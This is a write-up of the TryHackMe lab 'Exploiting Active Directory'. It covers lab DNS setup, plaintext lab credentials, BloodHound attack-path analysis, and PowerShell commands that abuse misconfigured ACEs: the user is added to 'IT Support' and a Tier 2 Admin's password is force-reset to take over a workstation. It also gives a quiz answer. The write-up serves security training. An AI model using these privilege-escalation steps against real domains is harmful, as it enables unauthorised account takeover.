 ![image](https://github.com/user-attachments/assets/d9509ed9-4fa9-4285-bf27-51e33bdedb01)


# Exploiting Active Directory
  Learn common AD exploitation techniques that can allow you to reach your goal in an AD environment.

TryHackMe room [link](https://tryhackme.com/room/exploitingad)

<br>


## Task 1 : Introduction

  This task is part of an Active Directory (AD) exploitation lab, building on previous networks (Breaching AD and Enumerating AD). The goal is to exploit AD misconfigurations for lateral movement and privilege escalation.

> Workflow...

- Network Setup:
    
    - The network includes hosts like THYCHILDC (10.200.47.101) and THYSERVER1 (10.200.47.201).
    - DNS must be configured to resolve .loc domains (e.g., thmdc.za.tryhackme.loc).
    - You need to download the `.ovpn` for this AD exploitaion.. (can be downloaded from access page.)

      ![image](https://github.com/user-attachments/assets/a420a27f-f87f-4cb6-bec0-96142c4db17d)


    - AttackBox users automatically connect but must set DNS manually.
    - Other hosts (OpenVPN/Kali) require manual DNS setup.
      ![image](https://github.com/user-attachments/assets/d8157595-d5ce-4382-a099-3ef4fe233db8)
       - Configure DNS.
   
              sed -i '1s|^|nameserver $THMDCIP\n|' /etc/resolv-dnsmasq
        ![image](https://github.com/user-attachments/assets/265edb61-a539-4340-a5b3-b3e99177c906)
 
       - Simillarly, Added the Domain controller IP in the `/etc/resolv.conf`
                   
              nameserver $THMDCIP
         
        ![image](https://github.com/user-attachments/assets/d40a459e-232c-4c98-8276-74b54213ebdc)
  
       - Test DNS.  

              nslookup thmdc.za.tryhackme.loc

        ![image](https://github.com/user-attachments/assets/4bf5e879-9827-4fc9-8ca4-efa3952af048)

- Initial Access:
    
    - Credentials are obtained from the follwoing web-page..

            http://distributor.za.tryhackme.loc/creds

      ![image](https://github.com/user-attachments/assets/0f467fcb-2366-4c67-a60b-f17d04818f1c)

    - These credentials allow `RDP`/`SSH` access to `THMWRK1.za.tryhackme.loc` (jump host).

          ssh za.tryhackme.loc\\paula.bailey@thmwrk1.za.tryhackme.loc

      and for the rdp..

          xfreerdp3 /v:thmjmp1.za.tryhackme.com /u:paula.bailey /p:Y2VgRWWiQ /cert:ignore
      
- Exploitation Techniques Covered:

    - AD Delegation
    - Forcing Authentication Relays
    - Group Policy Objects (GPOs)
    - Targeting AD Users
    - Domain Trusts
    - Silver/Golden Tickets
      
- Post exploitation:
    
    - Perform lateral movement and privilege escalation.
    - Later tasks will cover persistence
      ![image](https://github.com/user-attachments/assets/956a81fb-affb-4677-92ed-07354be34f88)


<br>



## Task 2: Exploiting Permission Delegation

- This task demonstrates how Active Directory (AD) Permission Delegation can be exploited to escalate privileges. The key steps involve:
  - Identifying Misconfigured ACEs (Access Control Entries) that grant excessive permissions (e.g., `AddMembers`, `ForceChangePassword`).
  - Using `BloodHound` to analyze attack paths (e.g., from a low-privileged user to `Tier 2 Admins`).
  - Exploiting Weak Delegation by:
    - Adding our account to the IT Support group (using `Add-ADGroupMember`).
    - Forcing a password reset on a Tier 2 Admin (using `Set-ADAccountPassword`).
  - Gaining `Administrative` Access to `THMWRK1`.
 


> Workflow....

### 1: Access BloodHound
  -  Start Neo4j:

         neo4j console start
     
  - Open BloodHound in another terminal:

        bloodhound --no-sandbox
    
  - Log in with default credentials: `neo4j`:`neo4j`.

  ![image](https://github.com/user-attachments/assets/f92bb430-b208-4e7b-882f-238287971a7d)

  - Import the provided `SharpHound` data (ZIP file) by dragging it into BloodHound.

### 2: Identify Attack Path
  
  - Search for your assigned `AD` user (from Task 1).
  - Set `start` position: Your user.
  - Set `end` position: Tier 2 Admins group.
  - BloodHound reveals:
    - Domain Users can add members to IT Support (AddMembers ACE).
    - IT Support can reset passwords for Tier 2 Admins (ForceChangePassword ACE).

### 3: Exploit Misconfigured ACEs
 - Add Your Account to IT Support (via PowerShell on THMWRK1):

        Add-ADGroupMember "IT Support" -Members "Your.AD.Username"
   
    - Verify with:
  
          Get-ADGroupMember -Identity "IT Support"
  - Force Password Reset for a Tier 2 Admin:
    - List Tier 2 Admins:
  
          Get-ADGroupMember -Identity "Tier 2 Admins"
      
    - Reset password (replace `Target.Admin` with a chosen account):
  
          $Password = ConvertTo-SecureString "Hack123!" -AsPlainText -Force
          Set-ADAccountPassword -Identity "t2_leon.francis" -Reset -NewPassword $Password
      
     - Wait 5-10 mins for propagation (or run `gpupdate /force`).

### 4: Retrieve the Flag

- RDP/SSH into `THMWRK1` using the compromised Tier 2 Admin credentials.
- Navigate to the Administrator’s Desktop and open `flag1.txt`.



<br>

## _Answer_

Which ACE would allow you to update any non-protected parameter of a target object?

      GenericWrite

What is the value of the flag stored on the Desktop of the Administrator user on `THMWRK1` (`flag1.txt`)?




<br>

  
